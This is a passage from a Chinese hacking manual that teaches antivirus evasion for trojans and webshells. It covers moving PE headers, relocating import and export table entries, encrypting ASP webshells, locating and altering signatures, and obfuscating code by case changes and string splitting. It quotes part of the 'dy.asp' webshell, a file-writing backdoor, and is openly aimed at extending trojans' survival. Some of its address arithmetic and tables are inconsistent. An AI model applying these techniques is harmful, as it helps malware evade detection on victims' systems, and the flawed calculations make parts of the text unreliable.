图 5.54

这里所谓的虚拟内存，它的作用就是将硬盘划分出一块区域，使系统将其当作物理内存来使用。因为它不是真真正正的内存，而是由硬盘虚拟出来的，所以将其称之为“虚拟内存”。为了便于区分，我们将其称之为“硬盘虚拟内存”。硬盘虚拟内存在系统中所扮演的角色与真正的物理内存是一样的，同属于“这个国家的实际空间”，只不过这块空间没有在地球上，而是在火星上而已。

因此大家不要将这两个虚拟内存的概念混淆。在知道了虚拟内存的概念后，我们就可以讲解 PE 文件与虚拟内存之间的映射了。

#### 5.8.3 PE 文件的内存映射

这部分内容虽然只是枯燥的理论知识，但是对于我们以后的免杀以及学习都起着至关重要的作用，如果能够透彻地了解这些概念，那么不仅在以后的免杀学习中如鱼得水，在我们学习汇编、破解、逆向工程以及缓冲区溢出时也会游刃有余。

虽然我不要求各位读者能全部理解这部分内容，但也希望大家能尽量学习这一小节的内容，对于目前我们会用到的必备知识我会详细地进行讲解，对于那些理解上可能有难度的，目前不是必需的知识我会为大家勾画出一个轮廓，各位读者可以将本小节当作工具书来使用。

在进行免杀时，我们最经常接触的就是寻找文件偏移地址与寻找内存地址这两件工作，但就是这两个简单的工作却可以帮助大家更好地理解这部分内容。

如果想理解 PE 文件与虚拟内存之间的映射关系，我们首先需要学习以下几个重要的概念：

1. **文件偏移地址（File Offset）**：数据在 PE 文件中存放的地址就叫做文件偏移地址，例如我们使用 WinHex 查看文件时的 Offset 就是文件偏移地址，如图 5.55。所谓的文件偏移地址就是文件在磁盘上存放时相对于文件开头的偏移。

图 5.55

2. **装载基址（Image Base）**：是指 PE 文件装入内存时的基地址，如果非要拿其与文件偏移地址比较的话，我们就可以理解为“文件偏移地址的装载基址为 0x00000000”，当然这是错误的，但是这样更有利于各位读者的理解。一般情况下，EXE 文件的装载基址都为 0x00400000，而 DLL 文件一般都是 0x10000000，但是这些并不是绝对的，都是可以更改的，特别是 DLL 文件更是如此。

3. **虚拟内存地址（Virtual Address，简写 VA）**：虚拟内存地址就是指 PE 文件被装入内存之后的地址。

4. **相对虚拟地址（Relative Virtual Address，简写 RVA）**：没有计算装载基址情况下的内存地址。

虚拟内存地址、装载基址与相对虚拟地址之间的关系如下：
**虚拟内存地址（VA） = 装载基址（Image Base） + 相对虚拟地址（RVA）**

我们来仔细看一下图 5.56，由图中不难看出， PE 文件在映射到虚拟内存后是有很大变化的。首先， PE 文件的 0 字节（第一个字节）所对应的虚拟内存地址为 00400000，这个就是所谓的装载基址（Image Base）了。

我们知道，文件偏移地址（File Offset）是相对于文件开始处 0 字节的偏移，而相对虚拟地址（RVA）则是相对于装载基址 00400000 处的偏移。由于操作系统在装载 PE 文件时仍然是按照 PE 文件中的各种数据结构来映射的，所以说文件偏移地址与相对虚拟地址（RVA）是有一定的相似之处的。它们之间的差异是由于数据单位存放的不同而造成的。

首先， PE 文件的数据存放是按照磁盘数据标准，以 0x200 字节为基本单位进行组织存放的。当一个数据区段（Section）不足 0x200 字节时，余下的空间用“00”填充；当一个数据区段超过 0x200 字节时，下一个 0x200 数据块将被分配给这个空间使用，余下的空间仍然是用“00”填充。因此 PE 文件的区段大小永远是 0x200 的整数倍。其次，当 PE 文件装入内存后， PE 文件的数据存放是按照内存数据标准，以 0x1000 字节为基本单位进行组织存放。其分配标准与磁盘数据组织方式一样，不足 0x1000 字节的其余部分用“00”填充，超过 0x1000 的就新分配一个 0x1000 的数据块。因此内存中的区段大小永远是 0x1000 的整数倍。

下面我为大家列出一个表格，以方便大家的理解：

| 区段（Section） | 相对虚拟地址 | 文件偏移量 |
| :--- | :--- | :--- |
| .text | 0x00001000 | 0x00000400 |
| .data | 0x0000F000 | 0x00000400 |
| .rsrc | 0x00018000 | 0x00009400 |

由于区段中相对于装载基址的偏移量与文件中的偏移量存在差异，所以当我们计算文件偏移与虚拟内存地址之间的换算时，就要看所转换的地址位于第几个数据节内。因此我们不难得出：**区段偏移 = 相对虚拟地址 - 文件偏移量**。

那么文件偏移地址与内存地址之间的换算关系就可以用如下的公式：
**文件偏移地址（File Offset） = 虚拟内存地址（VA） - 装载基址（Image Base） - 区段偏移**

```
已知：File Offset = VA - Image Base - 区段偏移
RVA = VA - Image Base
化简得：File Offset = RVA - 区段偏移
```

我们来举一个例子，假如我们要由一个 PE 文件虚拟内存地址算一个文件偏移地址，现在知道此 PE 文件的 Image Base 为 0x00400000，PE 区段情况为上述表格中所示，已知的虚拟内存地址为 0x00543210。我们需要先求区段偏移，由上表中“.text”区段中的信息不难求出：**区段偏移 = 0x00001000 - 0x00000400 = 0x00000C00**。由我们所知道的信息也不难求出相对虚拟地址：**RVA = 0x00543210 - 0x00400000 = 0x00143210**。既然区段偏移与 RVA 都已经知道了，那么文件偏移地址也就出来了：**File Offset = 0x00143210 - 0x00000C00 = 0x00142610**。因此我们得出此 PE 文件的虚拟内存地址 0x00543210 里的信息就在文件中的 0x00142610 处，是不是感觉很简单呢？

到此， PE 文件相关的知识就告一段落了，大家不要认为这节内容枯涩难懂，要知道越是难学的东西就越是有用，相信通过下一节的学习各位读者就会体会到 PE 文件的精妙之处了。

### 5.9 PE 文件中的免杀技术

PE 文件确实是非常有趣并值得研究的东西，既然 PE 文件如此博大精深，既然连我们的木马等也属于 PE 文件，那么我们是否应该想办法利用所学的知识做一些有用的实验呢？正是由于这种思想的存在，基于 PE 文件操作的免杀方法就诞生了，这一节我就为大家介绍一下基于 PE 文件操作的各种免杀方法。

#### 5.9.1 移动 PE 文件头位置免杀

由于移动 PE 文件的操作思想有些复杂，如果完全将原理与操作分开介绍的话不利于各位读者的理解，所以本小节就没有将其分为操作篇与原理篇。

首先，为了能有一个比较“干净”的修改场所，需要将其 PE 头部的垃圾信息清理一下，这里使用到的工具是 PeClean，我们只需要将 WebHacking 拖放到 PeClean 的界面就可完成清理了，如图 5.57，然后使用反汇编工具 WinHex 打开文件，打开后如图 5.58 所示，我们可以看出，通过与典型 PE 文件对比，我们发现许多没用的信息现在已经清理干净了，这样更有利于下面的修改操作。

图 5.57

接下来就是计算 PE 文件头的大小，沿着 PE 文件头开始标志“PE”往下找，第一个问号处所对应的 16 进制信息就是 PE 文件头的大小了，如图 5.59。其实这种查找方法有一定的局限性，我们也可以这样查找，在关键字“PE”后的第 17 个字节处的数据就是代表 PE 文件头大小的信息。

我们由上图得知，与之相对应的 16 进制信息为“E0”，转换为 10 进制也就是“224”，如图 5.60，由此我们知道了 PE 文件头的大小为 224 字节。

可能看到这里有的朋友会有疑问，前面介绍 PE 文件的时候不是说过 PE 文件头的大小为 224 字节了吗？为什么这里又要讲一遍呢？其实这样做只是考虑到怕大家遇到特殊情况，例如 PE 文件有时已经被做了手脚，如果再详细的介绍一遍，这样可以保证各位读者能轻松应对任何情况。

下面就从关键字“PE”开始向下复制 224 个字节，其实还有更方便一些的方法，我们可以一边复制，一边注意 WinHex 右下角的“大小”信息，当其显示为 16 进制的 E0 时，就说明我们已经选择了 224 个字节的信息了，如图 5.61。

## 第五章 其他综合免杀技术


图 5.58


图 5.59


图 5.60


图 5.61

接下来按快捷键“Ctrl + C”复制这段数据，然后在刚才选取PE文件中部，由下向上选取224字节的区域，同理我们看“大小”信息当显示16进制信息E0后就可以停止了，如图5.62。


图 5.62

我们的光标停留在所选区域最前方，也就是偏移量80上，下面我们按快捷键“Ctrl + B”，就会弹出一个对话框，提示“剪切板数据将写入在偏移量80”，我们点击确定即可，结果如图5.63所示。这里一定要注意，在按快捷键之前，一定要确定光标在所选区域的最前方，否则会导致程序不能运行，甚至执行后会导致系统崩溃。


图 5.63

现在要将原 PE 文件头的剩余部分使用 00 填充，如图 5.64，然后在区段表的第一个节表“.nsp0”前开始选择，一直到 PE 文件头的头部，如图 5.65。


图 5.64

我们选择区域的大小为 16 进制的 140，也就是 10 进制的 320 字节。只需要将这个数值减去 24，等于 296，这就是现在位移后的 PE 文件头的真正大小了。也就是说，实际上我们 PE 文件头大小此时已经由原来的 224 变为现在的 296，转换成 16 进制就是 128。通过以上的 PE 文件知识推理可知，我们应该将上面的 E0 改为现在的 128，但是实际应用时我们却不能这么改，因为涉及到高低位的问题，关于这个高低位的问题在这里大家不必了解，只要记住它的规律即可。


图 5.65

就以我们将要更改的 128 为例，真正应用时就要输入“28 01”，如图 5.66。而如果大小是 567 的话，那么就应该输入“67 05”，而 ABC 自然也就是“BC 0A”。


图 5.66


图 5.67

明白了修改 PE 文件头大小的方法后，我们还应该修改记录 PE 文件头位置的信息，这个就比较容易了，通过 PE 文件的基础知识可以知道，记录 PE 文件头的字段位于 DOS 文件头的偏移量 3C 处，如图 5.67。可以知道原来的 PE 文件头位于偏移量 C8 处，但是现在 PE 文件头位于偏移量 80 处，所以 we 只要将 C8 改为 80 即可，如图 5.68 所示。最后保存文件，运行一下试试功能是否完全正常。


图 5.68

最后我们来总结一下移动 PE 文件头的步骤：

- 1. 计算原始文件头大小，并将其复制。
- 2. 将其粘贴到新的位置后，将原有残余的 PE 文件头用 00 填充。
- 3. 计算更改后的 PE 文件头大小，并更改记录 PE 文件头大小的标志位为最新值。
- 4. 更改记录 PE 文件头起始位置的标志位为最新值。
- 5. 保存，结束。

讲了这么多，修改 PE 文件头究竟有什么用处呢？因为 PE 文件头是 PE 文件的主要标志，如果有杀毒软件将特征码定位在这里，使用一些常规的修改办法将很难免杀成功，此时就要借助移动 PE 文件头来实现免杀的目的了，除此之外，当我们移动完 PE 文件头后，大部分的反汇编工具将不能正确识别此文件，这样更有利于保存我们的免杀成果，并且提高木马的存活时间。

#### 5.9.2 输入表移动免杀

随着杀毒与免杀之间的竞争不断激烈，杀毒软件厂商已经意识到了要从源头上杜绝木马与病毒的再生，就必须控制好变种的出现，然而绝大多数所谓的变种都是通过免杀产生的。因此杀毒软件厂商特征码定位的位置也越来越刁钻，甚至连输入表都已经被其所使用。这一小节我们就来看看如何通过移动输入表从而躲过类似的查杀事件。

##### 一、操作篇

我们的操作目的就是要使位于 USER32.DLL 的输入表 MessageBoxA 换一个地方。首先使用 LordPE 载入目标文件，点击“目录”按钮，在弹出的新窗口中点击“导入表：”后的“...”按钮，如图 5.69。

在弹出的新窗口中选择 USER32.DLL，并在下面找到输入表函数 MessageBoxA，然后单击右键选择“编辑”选项，如图 5.70。


图 5.69


图 5.70

记住 “ThunkValue” 后的偏移地址，也就是 00023730，如图 5.71。接下来使用 WinHex 打开目标文件，按快捷键 “Alt + G” 调出 “转到偏移地址” 窗口，填入我们刚才记下的地址 00023730，然后点击 “确定” 进行查找，找到的结果如图 5.72 所示。


图 5.71


图 5.72

将 MessageBoxA 使用 00 进行填充掉，如图 5.73，并将其移动到其它位置，我这里将其移动到了 00022B80 处，如图 5.74。在移动时一定要注意输入表的大小写，如果大小写搞错了就会直接导致修改的失败。


返回到 LordPE 中，重新加载修改后的文件，右键编辑输入表 MessageBoxA，将“ThunkValue”后的偏移地址改为我们更改之后的 0002372E，如图 5.75。有的读者也许会感到有些困惑，刚才我们不是把那个输入表函数放到 00022B80 里了吗？到这里怎么变成 0002372E 了呢？其实原理很简单，因为每个输入表函数前面都有一个空格，我们虽然不必真正地把那个空格添加进去，但在填写它的地址时却一定要空出来，否则就会出错。而将 00022B80 减去一个空格所占的位置，其地址便为 0002372E 了，如果各位读者还不明白的话可以重新仔细看看上图 5.74。


但是在修改输入表后经常会碰到一些奇怪的情况，例如修改完毕后输入表的名字丢失了，或是函数的名字变得很奇怪，我们只需使用右键的编辑菜单重新设置一下函数名即可，如图 5.76。


##### 二、原理篇

PE 文件的正常运行是离不开其内部输入表函数的，而不同的程序，其内部输入表函数的名称与在文件中的位置是不一样的，所以输入表函数也成了杀毒软件厂商制作特征码紧盯的目标的地方之一。就我查出来的关于灰鸽子的特征码来看，瑞星已经将它的一处输入表函数作为特征码了。但是输入表就那么被移来移去的怎么会不出错呢？

输入表函数（APIName）是程序调用外部动态链接库的依据，在上边的 5.8.1 小节中我已经对其进行了详细的介绍。因此我们不难推断，输入表只是调用外部动态链接库的一个“书签”，它究竟存在于哪里并不重要，只要程序运行时能够找到它，并能根据它的名字去调用相应的外部功能，那么它的使命就完成了，因此我们可以随意将其移动到其它的任意位置。

#### 5.9.3 输出表移动免杀

从名字上不难看出，输出表正好是与输入表相对应的，但是相对于输入表来说，输出表的修改要更复杂一些，这里所说的复杂，其实也仅仅是虚拟内存地址与文件偏移地址间的转换而已，而且这部分内容我已经在上边的 5.8.3 小节中详细介绍过了，有不明白的读者就请再返回去温习一下吧。

既然输出表与输入表是相对应的，所以在这一节中我们仍然是以 MessageBoxA 这个函数为例来看看怎样在输出表中对其进行移位。

##### 一、操作篇

使用 LordPE 载入 PE 文件 user32.dll 后点击“目录”按钮，在弹出的新窗口中点击“导出表：”后的“...”按钮，如图 5.77。


图 5.77

在弹出的新窗口中找到 MessageBoxA 函数后点击鼠标右键，并选择“编辑”选项，如图 5.78。在弹出的如图 5.79 所示的窗口中我们得知此函数的名称 RVA（相对虚拟地址）为 0x0001E2AF，想想我们在前边的 5.8.3 小节中所讲过的公式：**File Offset = RVA - 区段偏移**。


图 5.78


图 5.79

现在 RVA 知道了，还差区段偏移，所以我们使用 PEID 加载 user32.dll 后点击“PE段：”后的“>”按钮，就会弹出如图 5.80 所示的对话框。由图中我们知道相对虚拟地址与文件偏移量分别为 0x00001000 与 0x00000400，根据公式“区段偏移 = 相对虚拟地址 － 文件偏移量”不难计算出区段偏移为 0x00000C00，使用我们得到的 0x0001E2AF 减去 0x00000C00 后就得到最终结果 0x0001D6AF 了。


图 5.80

接下来我们打开 WinHex 加载文件，并按快捷键“Alt + G”调出“转到偏移地址”窗口，填上我们计算出来文件偏移地址 0x0001D6AF，就来到了如图 5.81 所示的地方，看看 MessageBoxA 函数名是不是真的在这里躺着呢？


图 5.81

我们将其使用“00”填充掉之后，找到一处空白区将其转移过去，这里我转移的地址为 0x00099180，如图 5.82。保存完毕后使用 LordPE 重新载入 user32.dll，然后点击“区段”按钮，弹出了如图 5.83 所示的对话框，由区段信息可知，最后一个“.reloc”区段的起始位置为 0x00096000，大小为 0x00003200，因此得出“.reloc”区段的区域为 0x00096000-0x00099200。而我们的新地址 0x00099180 恰好在这一空间之内，所以当我们需要将此处的文件偏移地址转换为相对虚拟地址时，就要利用此区段的信息来计算区段偏移。


图 5.82


图 5.83

根据上图中所显示的信息不难计算“.reloc”区段的区段偏移为 0x00099000 − 0x00096000 = 0x00003000，根据公式“File Offset = RVA − 区段偏移”与文件偏移地址 0x00099180 不难计算出 RVA 即为 0x00099180 + 0x00003000 = 0x0009C180。

现在我们返回到 LordPE，进入 MessageBoxA 函数的编辑界面，在寻找函数时会看到一个没有名称的函数，这就是我们更改之后的 MessageBoxA，右键编辑之后，将其“名称RVA:”后的信息更改为我们的新地址 0x0009C180，并在“函数名称:”后面填上函数名 MessageBoxA，如图 5.84，最后点击“确定”并保存就可以修改成功了。


图 5.84

##### 二、原理篇

修改输出表的免杀作用我就不再重复了，与修改输入表的免杀作用完全一致，我再向大家解释几个细节性的问题。

**1、关于区段偏移的计算**

区段偏移的计算绝不是仅指“.text”区段，而是我们要进行转换的地址位于哪个区段，就要使用哪个区段的信息来计算。

那么我们如何判断需要转换的地址位于哪个区段呢？就以图 5.85 所示的情况来看，如果我们想将文件偏移地址转换为相对虚拟地址的话，那么就应该参考“R.”打头的信息。

| 名称 | V.偏移 | V.大小 | R.偏移 | R.大小 | 标志 |
|---|---:|---:|---:|---:|---:|
| .text | 00001000 | 000671FF | 00000400 | 00067200 | 60000020 |
| .data | 00069000 | 00001700 | 00067600 | 00001400 | C0000040 |
| .rsrc | 0006B000 | 0002D520 | 00068A00 | 0002D600 | 40000040 |
| .reloc | 00099000 | 0000312C | 00096000 | 00003200 | 42000040 |

图 5.85

设我们要转换的地址为 0x00054321，那么首先 look 偏移处的信息，通过简单的对比可知它只比“.text”区段的偏移地址大，因此可以断定这段地址肯定是属于“.text”区段。如果我们要转换的地址为 0x00088888 的话，经过简单的对比发现它比“.rsrc”区段的偏移地址大，而比“.reloc”区段的要小，因此就可以断定它是属于“.rsrc”区段的。

如果我们反过来，要将相对位移地址转换为文件偏移地址呢？判断方法也完全一样，唯一不同的就是要根据“V.”打头的信息来判断。

**2、为什么我们更改完 MessageBoxA 函数的位置后会导致其函数名的丢失？**

因为我们将其从原来的位置使用“00”填充掉了，也就是删除掉了，而文件在读取函数名时仍然到那里去检查，当然也就什么都读取不到了。如果我们将“名称RVA”的值更改为我们计算好的新值，函数名自然就会被重新读取到了。

到此，本小节的内容就全部结束了，不知道各位读者有何感触？是不是感觉越是底层的东西，我们所发挥的空间就越大，我们的思路就越灵活？要想在虚拟世界中做到“攻其不备，出其不意”的话，唯一的方法就是向底层发展，只有当洞悉了所有操作背后的本质后，才能真正的做到攻其不备，当熟知了 PE 文件以及杀毒软件的原理后，才能真正的做到出其不意，让我们一起努力探索吧！

### 5.10 网页木马的免杀技术

网页木马分为黑客挂马时所用的网马以及入侵服务器时所用的脚本木马，本小节我就带领大家分别从这两个方面入手，介绍一些简单的网页木马免杀技术。

#### 5.10.1 脚本木马免杀

关于脚本木马，从某种角度上来说它应该是属于开源的，因此这也就给我们带来了很大的方便，我们只要懂得脚本语言，就可以去分析这些活动服务器文档，从而学习到别人的编程思路。我们为什么将脚本称之为“活动服务器文档”呢？单从微软给它定义的名字就可以看出来，所谓的脚本只不过是文档的一个超集，它的本质不过是文档而已。

正是由于这个“程序”完全开放的特性，所以对于黑客们来说它更容易被修改，这也就导致了传统杀毒软件对于脚本木马查杀力度的疲软，因而网上也出现了诸如“思易ASP木马追捕”、“雷克图”等脚本专杀程序。正因为如此，本节内容将分为两个方向，分别教大家怎样针对传统杀毒软件以及专杀程序进行有效的免杀，以便于各位读者的理解及应用。

##### 一、针对传统杀毒软件的免杀

对于脚本木马的免杀，其实也是需要有一定脚本语言基础的，所以将由浅入深的为大家讲解，希望零基础的读者们能跟的上。先带大家学习一下如何使用工具进行免杀，以便大家在思维上有一个平缓的过渡。

**1、加密免杀**

有一定免杀基础的读者们对于“壳”应该都有所了解吧，壳就是将 PE 文件加密并不影响其正常运行的一种保护技术。其实脚本也有自己的“壳”，但是鉴于脚本的开放性，它的壳对于免杀来说效果可能不是很好，但这也终究是一种免杀方法。

对于 ASP 脚本的加密，目前比较流行的就是使用微软的 screnc 加密，当然还有一些别的加密方法，但也是万变不离其宗，下面就先介绍几款 ASP 脚本的加密工具让各位读者了解一下。

**（1）ASP 木马加密免杀工具 GUI 版**

这款工具就是微软 screnc 加密的 GUI 版，因为原版的 screnc 加密工具是命令行下使用的，不方便刚入门的小菜朋友学习，所以我就找了个 Windows 界面的程序给大家。我们先使用它为海阳顶端木马加密一下，打开“ASP 木马加密免杀工具”后点击“选择源木马”按钮，在弹出的对话框中选择要加密的脚本木马，如图 5.86，选择完毕后点击“读取”，再点击“加密”按钮就可以加密成功了。


图 5.86

使用很方便吧，点点鼠标就可以将 ASP 木马加密了。我们来看看加密后的木马变成什么样子了，如图 5.87，这回连神仙也看不懂了吧？既然连神仙都看不懂，杀毒软件自然也看不懂了。但是有一点需要大家注意，我们加密完成后需要测试一下脚本木马的功能是否完全正常，因为加密后的脚本木马有可能导致变量、参数等不能完全还原。当然了，在后面的免杀中大家也要注意这一点。


图 5.87

**（2）ASP 木马加解密**

“ASP 木马加密解密”是一款支持批量加密解密的软件，它的算法与微软 screnc 加密的算法不同，但是使用起来依然非常方便。我们只要选择 ASP 木马的所在文件夹，那么在这个文件夹下的所有木马都将被进行加密，所以大家在操作时要记得先备份文件。将需要加密的 ASP 木马放入一个单独的文件夹里，然后打开程序，选择相应的文件夹，并选择“编码”选项，最后点击“执行批量转换”就可以完成加密了，如图 5.88。

**（3）webshell 免杀工具**

“webshell 免杀工具”是一款采用特殊“算法”的加密工具，可以加密 asp、jsp、php、cgi、aspx 等不同的脚本木马，而且加密完成后文件大小基本不变。关于它的“算法”是多么特殊，我在本小节后面会向大家详细介绍。

## 第五章 其他综合免杀技术

打开工具后点击“文件打开／保存”按钮，选择我们的海阳木马，然后就会弹出一个提示对话框，叫我们选择输出路径（也就是加密后木马的保存路径），如图 5.89，选择完毕后程序就会自动进行加密了，由于加密速度较慢，配置较低的电脑有可能会出现假死状态，我们需要稍等一会儿。大概过一分钟左右加密就会完成了。


图 5.88


图 5.89

为什么这款工具可以加密几乎所有的脚本木马呢？大家回过头看看本小节的第一句话，我在算法这一词上加了双引号，也就是说这根本就不是什么算法，其实只不过是简单的大小写字母替换而已，除此之外，还会对 ASP 等脚本的对象进行拆分。可能有小菜朋友要问了：“对象”是什么意思？什么又是“变量”呢？”不要着急，我会在文章后面进行详细的介绍。

### 2、特征码免杀

就目前来讲，只要是针对木马的免杀，就一定少不了与特征码打交道，特别是针对传统杀毒软件的免杀更是显得尤为重要。我们返回到特征码的问题上来，由于脚本木马里出现的所有字符都在原文件里，所以第一步要做的就是更改版权，将木马“个人化”从而达到一定的免杀效果。由于我们使用的 ASP 脚本木马大多数都是中文版的，所以各位不懂脚本的朋友可以暂时不用考虑语法与程序逻辑问题，见到中文尽管改就可以。

但是怎么改呢？其实简单的很，我们在脚本文件上单击右键，在弹出的菜单里选择“属性”，然后在对话框的“常规”选项里单击“更改”按钮，在弹出的新窗口中选择“文本文档”，最后点击“确定”即可，如图 5.90。设置完毕后就会变成类似于文本文档的图标，如图 5.91，以后我们只要双击脚本文件就会自动使用文本文档打开了。但是杀毒软件总不能只将特征码定义在中文里呀，所以我们还要考虑有针对性的更改特征码，从而真正达到免杀的目的。


图 5.90


图 5.91

###### （1）针对性免杀

在前面的第 4.3 章节中我已经为大家详细的介绍了脚本木马的特征码定位技巧，但是那个方法或多或少还是有些麻烦，现在我再教大家一个更为简便的方法。

不知各位读者是否还记得我所讲的切割法定位的思想，当我们拿到一个脚本木马后需要先将它“切割”，也就是将里面的代码分成几部分，然后分别保存在文本文档里，并将后缀名改为“.asp”，最后使用杀毒软件查杀。如果哪个文件被杀，就说明它里面含有特征码。那么我们就将这个被杀的文件再次进行分割后进行查杀，如果还有被杀的文件，那么就再次重复这一过程，直到我们发现里面的特征码为止。

但是如果手工来做这件事的话是非常麻烦而且也容易出错的，我们可以借助“webshell 特征码定位器”这款小工具来帮我们完成这个工作，只不过它的原理稍有不同，但也都是大同小异，都是利用文件分割的思想。

打开“webshell 特征码定位器”，点击“打开文件”按钮选择我们的木马，加载完毕后就会看到它提示“文件行数：3151”，如图 5.92。这个信息告诉了我们两件事，一是我们的脚本木马共有多少行代码，二是它一会儿就要生成 3151 个样本文件。

可能有读者会认为生成的文件太多了，但是也只能如此了，这也是该程序有待改进的地方。接下来点击“生成文件”按钮，它就会将样本文件生成在程序目录下的 output 文件夹里，而不是与木马文件存放在同一目录下，这点也是它与众不同的地方，大家在使用时需要注意。当状态栏提示“已经写文件完毕”后我们就可以进行下一步操作了。

生成完毕后使用杀毒软件查杀，并将报毒的文件删除，相信各位读者对于这一步操作已经非常熟练了。查杀完毕后点击“特征码定位”按钮，就弹出了如图 5.93 所示的文本文档，里面的就是定位好的特征码。对于脚本木马的特征码更改我就不多费口舌了，大多数情况下更改大小写就可以了。


图 5.92


图 5.93

###### （2）宽泛性免杀

对于木马的免杀，除了寻找特征码外，还可以无目的替换代码的大小写，以达到免杀的效果。大家都知道 Windows 操作系统对于大小写并不敏感，但杀毒软件对于大小写却是非常敏感的，然而值得庆幸的是，运行于 Windows 操作系统的脚本同样对于大小写也不敏感。还记得我们上面讲的那个什么都能加密的软件吗？其实它利用的原理就是这种大小写替换的方法，虽然都是大小写的替换，然而这款加密程序利用的却是宽泛性的免杀方法。

究竟什么是宽泛性免杀呢？宽泛性免杀就是指无目的的随意替换脚本文件里代码的大小写，在对象中插入空变量，从而起到免杀的效果。虽然理论上 Windows 对大小写不敏感，但是由于一般的脚本木马逻辑性比较强，过分的更改代码的大小写还是会导致程序的运行异常。另外需要大家注意的是，不一定经过宽泛性免杀的脚本木马就一定能起到免杀的效果。其实宽泛性免杀要与针对性免杀结合起来效果才够好。

那么要怎样进行宽泛性免杀呢？宽泛性免杀的第一步就是选择操作方法，我们可以选择将全部字母替换成大写或只替换一部分字母的大小写，也可以专门替换一些声明的变量或对象。当然我们一般会同时应用这两种方法。关于前一种方法由于操作简便，只是替换的问题，相信大家都会了，所以我主要介绍一下关于变量与对象的替换方法。

要想对其进行替换，自然要知道什么是变量与对象，我们先看看下面一段代码。

```asp
<%             // 脚本开始标记
 dim FSOFIL        // 声明变量 FSOFIL
 dim CountFil      // 声明变量 CountFil
 dim Fildata       // 声明变量 Fildata
 on error resume next
 Set FSOFIL = Server.CreateObject("Scripting.FileSystemObject")  // 调用 Scripting 组件的 FileSystemObject 对象
 if Trim(request("syfdpath"))<>"" then   // 先过滤变量 syfdpath 两边的空格，并判断变量内容是否为空。
   Fildata = request("cyfddata")          // 将取得变量 cyfddata 的值去掉两边空格后赋值给变量 Fildata
   Set CountFil=FSOFIL.CreateTextFile(request("syfdpath"),True)
   CountFil.Write Fildata
   if err =0 then
     response.write "<font color=red>save Success!</font>"
   else
     response.write "<font color=red>Save UnSuccess!</font>"
   end if
   err.clear
 end if
 ......
%>             // 脚本结束标记
```

这就是著名小马“dy.asp”的部分源代码，大家看的时候注意里面的变量与对象。对于不懂脚本的朋友，我们可以初步的认为凡是关键字 dim 后面跟着的就是变量（注意前三行代码），而且关键字 dim 后面可以跟一个变量，也可以跟多个变量。当后面跟多个变量时要使用“,”隔开，例如：**dim FSOFIL,Fildata, CountFil** 这句代码与上面代码的前三句是等价的。

我们又是怎样区分对象呢？我们可以寻找它的关键字“Server.CreateObject("xxxx.xxx")”，关键字括号中的“xxxx.xxx”就是要调用的对象。例如上面代码的“Server.CreateObject("Scripting.FileSystemObject")”所调用的就是 Scripting.FileSystemObject 这个对象。通过以上的讲解大家应该看出，如果我们能记住脚本的关键字，那么就能看懂简单的脚本代码，所以希望刚入门的朋友能学会上面所讲的脚本基础知识，知道这些后我们就可以试着更改这些变量与对象了。

对于变量我们可以随便更改，因为这些变量都是程序员自定义的。例如我们看着 FSOFIL 这个变量不爽，就可以将它改成 HackerXFiles 或 A1Pass，替换完毕后如果不出意外的话都是可以正常运行的，至于替换大小写的问题就更不用我多说了吧。

至于对象我们就不能随便更改了，因为它引用的是系统组件，与关键字有些相近。那我们就只能对它进行大小写替换了吗？当然不是！除此之外我们还有一种方法，就是可以往对象里插入空变量，例如我们想在”ABCD”这个组件中插入空变量 123，那么插入完毕后就成了”AB” &”1234” &”CD”，也就是说在空变量两边都加上”&”，然后再将其插入到目标变量里，但是当程序运行到这里时，由于 1234 是空变量，也就是代表什么都没有，所以真正的执行结果还是”ABCD”。

下面我们就对 `Set FSOFIL = Server.CreateObject("Scripting.FileSystemObject")` 这句代码进行更改，演示一下具体的更改方法。通过上面的介绍可以知道“Server.CreateObject("xxxx.xxxx")”是关键字，那么里面的 Scripting.FileSystemObject 自然也就是对象了，因此我们就可以往里面插入诸如“A1Pass”等未声明的变量，并用连接符“&”或“+”号连接起来，而且这样改过后的意义不变。

```vbscript
Set FSOFIL = Server.CreateObject("Scri" & "A1Pass" & "pting.FileSyste" & "A1Pass" & "mObject")
```

说明白了也就是随便插入诸如”& "A1Pass" &”这样的字符。这样的话虽然意义不变，但是杀毒软件却识别不出来了，所以也就起到免杀的效果了，如图 5.94。


图 5.94

有的朋友可能还会想到插入连接符的方法，我们可以直接在对象里插入连接符“&”或“+”，同样可以打乱顺序，而且比较省事。但是不幸的是已经有杀毒软件可以识别这种无效的连接符了，并且可以直接将其替换，所以还是费点事比较好。因为免杀本来就是体力活，你省事，杀毒软件就更省事！

### 3、其它方法的免杀

以上的两种免杀方法都是比较传统的，但是作为一名合格的黑客，就要做到不走寻常路！要知道最好的方法永远都还未出现！所以要学会怀疑，学会探索。下面我再为大家介绍一下其它的免杀方法。

- **1. 数据库合并法**

根据题目就可以看出来，我们是通过将 asp 木马与数据库合并到一起来达到免杀的目的。但是为什么与数据库合并到一起就能起到免杀的作用呢？大家都知道现在的病毒木马多的不计其数，种类也是多种多样，就以大家所熟悉的木马来说，就分为脚本木马与可执行文件木马这两种。大家有兴趣的话可以试试，我们就算将木马的后缀名改掉了依然会被查杀！有的朋友要问了，改完后缀名连 Windows 都认不出来了，可杀毒软件为什么依然认得出来？这是因为杀毒软件是靠文件头来确认文件性质的，其实这也不是多复杂的功能，例如我们的 CMD 就有这个功能，只是没有杀毒软件强大而已。

而一般的杀毒软件为了提高扫描速度会给病毒归类，例如扫到一个脚本，就会使用脚本类病毒库里的特征码进行扫描，扫到可执行文件时就使用可执行文件病毒库里的特征码进行扫描。看到这儿大家可能就明白了，如果我们把 asp 木马与数据库合并到一起的话，那么杀毒软件就会将这个文件当作数据库文件来扫描，从而调用针对数据库文件的病毒库，所以也就达到免杀的目的了。

明白原理后操作就简单了，我给大家推荐一个叫做“数据库木马合并器”的工具，它使得我们的免杀操作更加简便，而且省去了新建数据库的烦恼。“数据库木马合并器”的使用方法很简单，只要选择我们的木马程序，然后点击“合并”按钮，如图 5.95，然后选择保存路径就可以完成了，如图 5.96。


图 5.95 图 5.96

- **2. UNICODE 法**

我们还可以使用 UNICODE 编码将木马变形，操作方法十分简单，甚至连额外的工具都不需要使用。我们先新建一个文本文档，然后按“Ctrl + O”快捷键，在弹出窗口中的“文件类型”下拉框中选择“所有文件”，然后在“编码”下拉框中选择“Unicode”，如图 5.97，最后打开我们的一句话木马，代码变成了如图 5.98 所示的样子。

将其复制，然后关闭文本文档再重新将其打开，并将这段字符复制进去，开始保存后也许会出现一个对话框，如图 5.99，我们选择“是”即可，不过根据我的经验，如果出现了这个对话框，那么保存的代码就一定会出现问题。就这样，我们的木马变形便完成了。


图 5.97


图 5.98


图 5.99

